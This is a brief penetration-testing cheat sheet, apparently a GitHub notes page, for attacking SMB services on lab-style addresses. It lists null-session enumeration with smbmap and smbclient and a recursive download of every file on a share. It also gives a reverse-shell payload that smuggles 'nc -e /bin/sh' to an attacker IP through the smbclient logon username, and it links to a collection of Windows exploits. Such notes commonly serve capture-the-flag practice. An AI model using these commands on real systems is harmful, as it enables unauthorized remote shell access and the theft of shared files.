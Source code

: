 [Windows](Windows)

Checking Null sessions
```bash
smbmap -H 10.10.10.4
smbclient -N -L //10.10.10.4
```

Creating reverse shell
```bash
smbclient //10.10.10.3/tmp
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
```

```bash
smbmap -H <remote_ip> -u <username> -p <password>
```

```bash
smbclient //10.10.10.100/<share_name> -U ""%""
    RECURSE ON
    PROMPT OFF
    mget *
```

https://github.com/abatchy17/WindowsExploits